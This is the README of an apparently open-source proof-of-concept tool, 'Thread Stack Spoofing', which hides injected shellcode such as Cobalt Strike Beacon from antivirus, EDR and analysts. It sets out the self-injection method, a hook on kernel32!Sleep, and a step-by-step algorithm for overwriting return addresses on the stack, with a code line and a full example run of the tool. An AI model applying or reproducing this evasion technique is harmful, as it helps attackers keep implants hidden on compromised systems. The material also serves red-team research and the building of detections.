 # Thread Stack Spoofing PoC

A PoC implementation for an advanced in-memory evasion technique that spoofs Thread Call Stack. This technique allows to bypass thread-based memory examination rules and better hide shellcodes while in-process memory.

## Intro

This is an example implementation for _Thread Stack Spoofing_ technique aiming to evade Malware Analysts, AVs and EDRs looking for references to shellcode's frames in an examined thread's call stack.
The idea is to walk back thread's call stack and overwrite return addresses in subsequent function frames thus masquerading allocations containing malware's code.

An implementation may differ, however the idea is roughly similar to what [MDSec's Nighthawk C2](https://www.mdsec.co.uk/nighthawk/) offers for its agents.
Especially demonstrated in this video:

[Nighthawk - Thread Stack Spoofing](https://vimeo.com/581861665)


## How it works?

This program performs self-injection shellcode (roughly via classic `VirtualAlloc` + `memcpy` + `CreateThread`). 
Then when shellcode runs (this implementation specifically targets Cobalt Strike Beacon implants) a Windows function will be hooked intercepting moment when Beacon falls asleep `kernel32!Sleep`. 
Whenever hooked `MySleep` function gets invoked, it will spoof its own call stack leading to this `MySleep` function and begin sleeping. 
Having awaited for expected amount of time, the Thread's call stack will get restored assuring stable return and shellcode's execution resumption.

The rough algorithm is following:

1. Read shellcode's contents from file.
2. Acquire all the necessary function pointers from `dbghelp.dll`, call `SymInitialize`
3. Hook `kernel32!Sleep` pointing back to our callback.
4. Inject and launch shellcode via `VirtualAlloc` + `memcpy` + `CreateThread`
5. As soon as Beacon attempts to sleep, our `MySleep` callback gets invoked.
6. Stack Spoofing begins. 
7. Firstly we walk call stack of our current thread, utilising `ntdll!RtlCaptureContext` and `dbghelp!StackWalk64` 
8. We save all of the stack frames that match our `seems-to-be-beacon-frame` criterias (such as return address points back to a memory being `MEM_PRIVATE` or `Type = 0`, or memory's protection flags are not `R/RX/RWX`)
9. We terate over collected frames (gathered function frame pointers `RBP/EBP` - in `frame.frameAddr`) and overwrite _on-stack_ return addresses with a fake `::CreateFileW` address.
10. Finally a call to `::SleepEx` is made to let the Beacon's sleep while waiting for further communication.
11. After Sleep is finished, we restore previously saved original function return addresses and execution is resumed. 

Function return addresses are scattered all around the thread's stack memory area, pointed to by `RBP/EBP` register. In order to find them on the stack, we need to firstly collect frame pointers, then dereference them for overwriting:

```
	*(PULONG_PTR)(frameAddr + sizeof(void*)) = Fake_Return_Address;
```

This precise logic is provided by `walkCallStack` and `spoofCallStack` functions in `main.cpp`.


## Demo

This is how a call stack may look like when it is **NOT** spoofed:

![not-spoofed](images/not-spoofed.png)

This in turn, when thread stack spoofing is enabled:

![spoofed](images/spoofed.png)


## Example run

Example run that spoofs beacon's thread call stack:

```
C:\> ThreadStackSpoofer.exe beacon64.bin 1
[.] Reading shellcode bytes...
[.] Initializing stack spoofer...
[+] Stack spoofing initialized.
[.] Hooking kernel32!Sleep...
[.] Injecting shellcode...
WalkCallStack: Stack Trace:
        2.      calledFrom: 0x7ff7abc92de4 - stack: 0x50174ff7d0 - frame: 0x50174ff8e0 - ret: 0x1f255dabd51 - skip? 0
        3.      calledFrom: 0x1f255dabd51 - stack: 0x50174ff8f0 - frame: 0x50174ff8e8 - ret: 0x1388 - skip? 0
        4.      calledFrom: 0x    1388 - stack: 0x50174ff8f8 - frame: 0x50174ff8f0 - ret: 0x1f25683ae80 - skip? 0
        5.      calledFrom: 0x1f25683ae80 - stack: 0x50174ff900 - frame: 0x50174ff8f8 - ret: 0x1b000100000004 - skip? 0
        6.      calledFrom: 0x1b000100000004 - stack: 0x50174ff908 - frame: 0x50174ff900 - ret: 0x8003600140000 - skip? 0
        7.      calledFrom: 0x8003600140000 - stack: 0x50174ff910 - frame: 0x50174ff908 - ret: 0x1f255f76040 - skip? 0
        8.      calledFrom: 0x1f255f76040 - stack: 0x50174ff918 - frame: 0x50174ff910 - ret: 0x1f255d8cd9f - skip? 0
        9.      calledFrom: 0x1f255d8cd9f - stack: 0x50174ff920 - frame: 0x50174ff918 - ret: 0x1f255d8cdd0 - skip? 0
WalkCallStack: Stack Trace finished.
                        Spoofed: 0x1f255dabd51 -> 0x7ffeb7f74b60
                        Spoofed: 0x00001388 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f25683ae80 -> 0x7ffeb7f74b60
                        Spoofed: 0x1b000100000004 -> 0x7ffeb7f74b60
                        Spoofed: 0x8003600140000 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255f76040 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255d8cd9f -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255d8cdd0 -> 0x7ffeb7f74b60
MySleep(5000)
[+] Shellcode is now running.
WalkCallStack: Stack Trace:
        2.      calledFrom: 0x7ff7abc92e14 - stack: 0x50174ff7d0 - frame: 0x50174ff8e0 - ret: 0x7ffeb7f74b60 - skip? 1
        3.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff8f0 - frame: 0x50174ff8e8 - ret: 0x7ffeb7f74b60 - skip? 1
        4.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff8f8 - frame: 0x50174ff8f0 - ret: 0x7ffeb7f74b60 - skip? 1
        5.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff900 - frame: 0x50174ff8f8 - ret: 0x7ffeb7f74b60 - skip? 1
        6.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff908 - frame: 0x50174ff900 - ret: 0x7ffeb7f74b60 - skip? 1
        7.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff910 - frame: 0x50174ff908 - ret: 0x7ffeb7f74b60 - skip? 1
        8.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff918 - frame: 0x50174ff910 - ret: 0x7ffeb7f74b60 - skip? 1
        9.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff920 - frame: 0x50174ff918 - ret: 0x7ffeb7f74b60 - skip? 1
WalkCallStack: Stack Trace finished.
                        Restored: 0x7ffeb7f74b60 -> 0x1f255dabd51
                        Restored: 0x7ffeb7f74b60 -> 0x1388
                        Restored: 0x7ffeb7f74b60 -> 0x1f25683ae80
                        Restored: 0x7ffeb7f74b60 -> 0x1b000100000004
                        Restored: 0x7ffeb7f74b60 -> 0x8003600140000
                        Restored: 0x7ffeb7f74b60 -> 0x1f255f76040
                        Restored: 0x7ffeb7f74b60 -> 0x1f255d8cd9f
                        Restored: 0x7ffeb7f74b60 -> 0x1f255d8cdd0
```


## Author

```
Mariusz Banach / mgeeky, 
<mb [at] binary-offensive.com>, '21
```

